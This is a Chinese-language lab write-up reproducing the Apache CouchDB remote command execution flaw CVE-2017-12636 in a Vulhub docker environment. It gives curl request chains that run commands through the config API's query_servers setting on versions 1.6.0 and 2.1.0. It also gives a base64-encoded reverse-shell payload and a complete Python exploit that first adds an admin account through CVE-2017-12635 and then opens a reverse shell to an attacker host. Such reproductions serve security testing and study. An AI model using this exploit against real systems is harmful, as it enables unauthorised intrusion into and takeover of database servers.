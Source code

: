 # Couchdb 任意命令执行漏洞 CVE-2017-12636

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动CVE-2017-12635附带的环境。

Vulhub执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

![image-20220222104917650](./images/202202221049822.png)

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

查看`/tmp/success`文件内容：

![image-20220222104941298](./images/202202221049362.png)

### 2.1.0 下的说明

2.1.0中修改了上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![image-20220222101400236](./images/202202221014285.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![image-20220222101444275](./images/202202221014315.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

![image-20220222101810195](./images/202202221018281.png)

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令，`/tmp/success`文件夹被成功创建。

![image-20220222102002703](./images/202202221020820.png)

### 1.6.0下反弹shell

curl 调用字符串需要用 `'`或`"`；json 需要 `"`，bash -c 的字符串需要 `'`或`"`，因此可以将反弹 shell 的语句写在文本shell.txt里面，然后通过 curl 调用shell.txt。

```
$ vim shell.txt
文件内容："bash -c '{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzQuMTI4Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'"
```

依次执行如下请求即可触发反弹shell：

```
# 第一步：-d参数读取本地文本文件的数据，向服务器发送
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/_config/query_servers/cmd' -d '@shell.txt'

# 第二步：添加Database
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest'

# 第三步：添加Document
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

# 进行查询，将language设置为cmd，这里就会用到第一步里添加的名为cmd的query_servers，最后触发命令执行
curl -X POST 'http://vulhub:vulhub@192.168.174.128:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

## 漏洞POC

1.6.0或2.1.0下反弹shell的poc

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.174.128:5984'
command = rb"""sh -i >& /dev/tcp/192.168.174.128/9999 0>&1"""

# Change Version Here
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

成功反弹shell

![image-20220222104008354](./images/202202221040431.png)

